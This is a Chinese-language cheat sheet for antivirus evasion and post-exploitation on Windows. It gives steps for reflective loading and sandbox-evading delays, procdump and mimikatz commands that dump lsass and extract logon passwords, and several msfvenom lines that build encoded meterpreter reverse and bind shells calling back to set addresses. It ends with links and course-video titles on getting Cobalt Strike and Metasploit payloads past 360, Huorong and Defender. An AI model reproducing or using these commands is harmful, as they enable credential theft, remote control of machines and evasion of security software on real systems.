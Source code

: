 普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
- [Rust免杀 - Shellcode加载与混淆](https://mp.weixin.qq.com/s/5SP0FerVIsEk3P-eH3PmKw)
- [常用工具免杀-助你护网](https://mp.weixin.qq.com/s/HBLpmCAoPRzvWq5akmLBTw)
7-项目七 渗透有防护的内网域_18 msf 正向木马免杀过360 全家桶【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇01mimikatz免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇02PrintSpoofer免杀过360杀毒360安全卫士【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇03MSF用加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇04Python3Cobaltstrikeshellcode免杀过360卫士和360杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇05Golang加载器Cobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇06GolangCobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇07c#xor加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇08Cobaltstrike免杀过360和WindowsDefender【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇09msf加密壳免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
Cobalt Strike 第十五章 使用多种方法免杀 payload【瑞客论坛 www.ruike1.com】.docx
暗月实战项目八19metasploit免杀杀毒软件并且开启远程终端登录目标服务器【瑞客论坛 www.ruike1.com】.mp4
暗月实战项目十一05frp反向代理msf到公网msf免杀过火绒上线【瑞客论坛 www.ruike1.com】.mp4
